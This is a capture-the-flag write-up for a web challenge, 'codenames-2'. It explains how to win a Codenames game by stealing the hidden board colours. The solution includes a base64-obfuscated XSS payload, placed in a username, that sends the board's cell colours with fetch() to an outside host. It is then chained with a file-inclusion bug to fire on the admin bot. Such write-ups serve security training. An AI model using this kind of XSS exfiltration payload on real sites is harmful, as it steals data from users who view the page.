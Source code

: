 # codenames-2
**Category:** Web
**Difficulty:** Medium
**Author:** Eth007

## Description

Codenames is no fun when your teammate sucks... Flag is in the environment variable `FLAG_2`.

## Distribution


## Solution

- Create an user with an XSS payload in its username, and ending with `.txt`. The XSS payload should exfiltrate the colors of the codenames board. Example: `<img src=x onerror=eval(atob('aWYoIXdpbmRvdy5kKXtmZXRjaCgiaHR0cDovL2V0aDAwNy5tZTo0MjAxMT8iK0FycmF5KDI1KS5maWxsKDApLm1hcCgoXyxpKT0+ZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoImNlbGwtIitpKVsic3R5bGUiXS5iYWNrZ3JvdW5kQ29sb3IpLmpvaW4oIiIpKX07ZD0x'))>.txt`
- Use the same vulnerability as in `codenames-1` to include the user's profile as a language file, triggering the XSS on the bot
- Using the exfiltrated colors, win the game in hard mode and get the flag.
